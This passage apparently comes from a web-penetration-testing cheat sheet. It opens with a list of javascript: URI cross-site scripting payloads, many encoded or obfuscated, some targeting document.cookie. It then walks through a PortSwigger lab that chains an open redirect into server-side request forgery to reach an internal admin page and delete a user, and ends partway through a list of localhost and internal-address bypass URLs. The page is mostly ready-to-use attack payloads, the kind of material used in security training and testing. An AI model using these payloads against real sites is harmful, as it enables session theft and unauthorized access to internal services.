     <>javascript:alert(1);
    //javascript:alert(1);
    //javascript:alert(1)
    /javascript:alert(1);
    /javascript:alert(1)
    \\j\\av\\a\\s\\cr\\i\\pt\\:\\a\\l\\ert\\(1\\)
    javascript:alert(1);
    javascript:alert(1)
    javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
    javascript:confirm(1)
    javascript://https://whitelisted.com/?z=%0Aalert(1)
    javascript:prompt(1)
    jaVAscript://whitelisted.com//%0d%0aalert(1);//
    javascript://whitelisted.com?%a0alert%281%29
    /x:1/:///%01javascript:alert(document.cookie)/
    ";alert(0);//
    %26%2302java%26%23115cript:alert(document.domain)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.domain
    javascript:alert(1)
    javascript:%61lert(1)
    javascript:&#37&#54&#49lert(1)
    javascript:%26%2337%26%2354%26%2349lert(1)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
    ```
    
- **Open Redirect to SSRF**
    
    - [Lab: SSRF with filter bypass via open redirection vulnerability | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
        
        1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
        2. Try tampering with the `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
        3. Click "next product" and observe that the `path` parameter is placed into the Location header of a redirection response, resulting in an open redirection.
        4. Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the `stockApi` parameter on the stock checker:`/product/nextProduct?path=http://192.168.0.12:8080/admin`
        5. Observe that the stock checker follows the redirection and shows you the admin page.
        6. Amend the path to delete the target user:`/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
    - **Redirect to localhost or arbitrary domains**
        
        ```bash
        # Localhost
        <http://127.0.0.1:80>
        <http://127.0.0.1:443>
        <http://127.0.0.1:22>
        <http://127.1:80>
        <http://127.000000000000000.1>
        <http://0>
        http:@0/ --> <http://localhost/>
        <http://0.0.0.0:80>
        <http://localhost:80>
        http://[::]:80/
        http://[::]:25/ SMTP
        http://[::]:3128/ Squid
        http://[0000::1]:80/
        http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
        <http://①②⑦.⓪.⓪.⓪>
        